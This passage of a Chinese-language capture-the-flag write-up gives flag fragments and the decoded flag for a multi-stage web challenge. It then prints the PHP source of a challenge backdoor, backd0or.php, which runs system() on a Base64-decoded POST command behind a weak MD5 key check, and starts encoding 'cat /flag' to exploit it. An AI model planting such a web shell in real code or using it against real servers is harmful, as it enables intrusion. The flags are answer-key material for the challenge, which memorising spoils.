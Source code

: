 在控制台输入`revealFlag('4cqu1siti0n');`

> 恭喜你！你获得了第二部分的 flag: IV95NF9yM2Fs
> ……
> 时光荏苒，你成长了很多，也发生了一些事情。去看看吧：/s34l



第三部分：修改已封印为解封

Flag: MXlfR3I0c1B, 你解救了五条悟！下一关: /Ap3x



第四部分：关闭JavaScript，执行按钮

{"flag":"fSkpKcyF9","nextLevel":null}

ZmxhZ3tXQTB3-IV95NF9yM2Fs-MXlfR3I0c1B-fSkpKcyF9   Base64解码



### 智械危机

根据题目提示，直接进入/robots.txt,然后进入/backd0or.php

```php
<?php
function execute_cmd($cmd) {
    system($cmd);
}

function decrypt_request($cmd, $key) {
    $decoded_key = base64_decode($key);
    $reversed_cmd = '';
    for ($i = strlen($cmd) - 1; $i >= 0; $i--) {
        $reversed_cmd .= $cmd[$i];
    }
    $hashed_reversed_cmd = md5($reversed_cmd);
    if ($hashed_reversed_cmd !== $decoded_key) {
        die("Invalid key");
    }
    $decrypted_cmd = base64_decode($cmd);
    return $decrypted_cmd;
}

if (isset($_POST['cmd']) && isset($_POST['key'])) {
    execute_cmd(decrypt_request($_POST['cmd'],$_POST['key']));
}
else {
    highlight_file(__FILE__);
}
?>
```

一个md5题 ，我们希望$cmd 原始值为  “cat /flag”

bs64编码--> Y2F0IC9mbGFn,
